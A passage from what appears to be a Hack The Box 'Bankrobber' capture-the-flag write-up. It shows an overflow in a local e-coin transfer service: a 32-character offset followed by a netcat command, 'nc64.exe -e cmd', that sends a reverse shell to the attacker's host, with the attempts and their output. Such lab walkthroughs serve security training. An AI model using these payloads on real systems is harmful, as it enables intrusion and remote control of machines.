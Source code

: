 ```bash
```

Sending a longer text string does result in something interesting, the application it would use to execute the e-coin transfer is replaced with part of our input. We can try using this to start our own software in case this isn't only a visual bug.

```bash
luc@kali:~/HTB/Bankrobber$ msf-pattern_offset -q 0Ab1
[*] Exact match at offset 32
luc@kali:~/HTB/Bankrobber$ python -c 'print "A"*32 + "\\\\10.10.14.16\\share\\nc64.exe -e cmd 10.10.14.16 444"'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\\10.10.14.16\share\nc64.exe -e cmd 10.10.14.16 444
```

We now know the offset and we already have access to `nc64.exe` on the machine so we can put our payload after 32 A characters.

```bash
luc@kali:~/HTB/Bankrobber$ nc 127.0.0.1 910
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 0021
 [$] PIN is correct, access granted!
 --------------------------------------------------------------
 Please enter the amount of e-coins you would like to transfer:
 [$] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\\10.10.14.16\share\nc64.exe -e cmd 10.10.14.16 444
 [$] Transfering $AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\\10.10.14.16\share\nc64.exe -e cmd 10.10.14.16 444 using our e-coin transfer application.
 [$] Executing e-coin transfer tool: \\10.10.14.16\share\nc64.exe -e cmd 10.10.14.16 444

 [$] Transaction in progress, you can safely disconnect...
```

Executing this payload shows a lot of activity on our SMB server, but no shell is created.

```bash
C:\Users\Public>copy \\10.10.14.16\share\nc64.exe
```

We now have `nc64.exe` on the target machine

```bash
luc@kali:~/HTB/Bankrobber$ nc 127.0.0.1 910
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 0021
 [$] PIN is correct, access granted!
 --------------------------------------------------------------
 Please enter the amount of e-coins you would like to transfer:
 [$] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC:\Users\Public\nc64.exe -e cmd 10.10.14.16 444
 [$] Transfering $AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC:\Users\Public\nc64.exe -e cmd 10.10.14.16 444 using our e-coin transfer application.
 [$] Executing e-coin transfer tool: C:\Users\Public\nc64.exe -e cmd 10.10.14.16 444

 [$] Transaction in progress, you can safely disconnect...
```
